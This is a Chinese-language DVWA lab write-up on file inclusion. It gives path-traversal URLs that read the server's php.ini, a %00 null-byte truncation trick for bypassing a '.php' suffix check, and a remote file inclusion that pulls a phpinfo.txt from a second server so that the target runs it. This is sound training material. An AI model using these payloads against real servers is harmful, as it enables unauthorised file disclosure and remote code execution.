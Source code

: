     成功读取了服务器的 php.ini 文件

    `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=file4.php`

- **构造url(相对路径)**

    `http://<IP地址!!!>/dvwa/vulnerabilities/fi/page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini`

    加这么多 ../ 是为了保证到达服务器的C盘根目录，可以看到读取是成功的。

    ![image](../../../assets/img/安全/实验/dvwa/dvwa19.png)

    同时我们看到，配置文件中的 Magic_quote_gpc 选项为 off。在 php 版本小于 5.3.4 的服务器中，当 Magic_quote_gpc 选项为 off 时，我们可以在文件名中使用 %00 进行截断，也就是说文件名中 %00 后的内容不会被识别，即下面两个 url 是完全等效的。

    1. http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini

    2. http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini%0012.php

    使用 %00 截断可以绕过某些过滤规则，例如要求 page 参数的后缀必须为 php，这时链接 A 会读取失败，而链接 B 可以绕过规则成功读取。

**远程文件包含**

当服务器的 php 配置中，选项 allow_url_fopen 与 allow_url_include 为开启状态时，服务器会允许包含远程服务器上的文件，如果对文件来源没有检查的话，就容易导致任意远程代码执行。

在远程服务器 B 上传一个 phpinfo.txt 文件，内容如下
```php
<?php

phpinfo();

?>
```

构造url `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=http://<服务器B IP地址!!!>/phpinfo.txt`

成功在服务器上执行了 phpinfo 函数

![image](../../../assets/img/安全/实验/dvwa/dvwa20.png)
